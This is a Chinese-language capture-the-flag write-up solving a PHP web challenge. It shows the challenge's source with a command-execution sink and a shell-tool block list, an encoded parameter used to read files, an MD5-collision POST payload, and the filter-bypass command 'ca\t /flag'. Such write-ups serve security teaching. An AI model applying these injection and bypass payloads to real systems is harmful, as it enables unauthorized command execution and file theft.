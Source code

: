 ![[Pasted image 20221118110609.png]]

---
首页长这样

![[Pasted image 20221118110637.png]]

自动跳转到了这个url
```php
/index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=
```

---
`img`参数的值可能经过了`base64`编码

![[Pasted image 20221118112321.png]]

![[Pasted image 20221118112331.png]]

似乎还是套娃编码

---
首页提示`md5 is funny ~`，就这么被带偏了，以为最后这串是md5，结果想解密提示格式都不对，绕了好久才发现这原来是个简单的16进制编码

![[Pasted image 20221118112610.png]]

---
搞懂了`img`参数的编码，尝试逆用这一点获取`index.php`的文件内容
```php
/index.php?img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3&cmd=
```

![[Pasted image 20221118112846.png]]
```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}
```

---
ctf3.jpeg（~~充满恶意~~嘲讽拉满）

![[Pasted image 20221118113435.png]]

---
![[Pasted image 20221118190742.png]]

如上，由于对`POST`参数进行了向`string`类型的强制类型转换，而`php`默认行为并非对数组及其各个元素进行向字符串的转换，而是直接返回`'Array'`，因此第一个比较的结果便为假，削减了利用数组绕过`md5`的可行性

这里的`md5`需要通过强碰撞绕过

~~在网上找现成的强碰撞`payload`找了半天呜呜呜~~

```php
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

这里还踩了一个坑，就是`POST`要加一个`Content-Type`头，并将值设为`application/x-www-form-urlencoded`，告诉服务器这段`POST`数据已经`url`编码过了

---
然后是`cmd`参数的构造，这个题的绕过还是比较氵的
```php
cmd=ca\t /flag
```
原理大致就是，对于`preg_match`来说，`\t`被转义成了横向制表符，因而没有被过滤；而对于`sh`来说，`\t`被解析为`t`，因此`payload`依然被作为`cat /flag`执行

#Web #md5 #PHP #绕过 #shell #编码 
